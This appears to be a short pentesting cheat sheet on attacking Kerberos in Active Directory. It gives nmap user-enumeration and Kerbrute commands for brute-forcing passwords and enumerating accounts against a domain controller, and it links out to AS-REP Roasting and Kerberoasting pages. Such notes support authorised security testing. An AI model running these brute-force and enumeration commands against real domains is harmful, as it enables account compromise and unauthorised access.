 ```yaml
---
title: Kerberos Pentesting
description: An authentication protocol that is used to verify the identity of a user or host. It uses cryptography for authentication and is consisted of the client, the server, and the Key Distribution Center (KDC). A default port is 88. Kerberos also uses a 464 port for changing passwords.
tags:
    - Active Directory
    - Privilege Escalation
    - Windows
refs:
date: 2024-06-27
draft: false
---
```


## Enumeration

To enumerate automatically, you can use nmap.

```sh
nmap --script krb5-enum-users --script-args krb5-enum-users.realm='example.local'-p 88 <target-ip>
```

### Brute Force Authentication

**[Kerbrute](https://github.com/ropnop/kerbrute)** is a tool to perform Kerberos pre-auth bruteforcing.  

```sh
# --dc: domain controller
# -d: domain
# combos.txt: the wordlist specified must be combinations with "username:password".
kerbrute bruteforce --dc 10.0.0.1 -d example.domain combos.txt

# Users enumeration
kerbrute userenum --dc 10.0.0.1 -d example.domain usernames.txt

# Brute force user's password
kerbture bruteuser --dc 10.0.0.1 -d example.domain passwords.txt username
```

<br />

## AS-REP Roasting

We might be able to find password hashes of user accounts that does not require preauthentication.  
Please see [AS-REP Roasting](/exploit/windows/active-directory/as-rep-roasting/).


<br />

## Kerberoasting Attack

If we have a password of some user, we might be able to gather another user credential.  
Please see [Kerberoasting Attack](kerberoasting-attack.md).
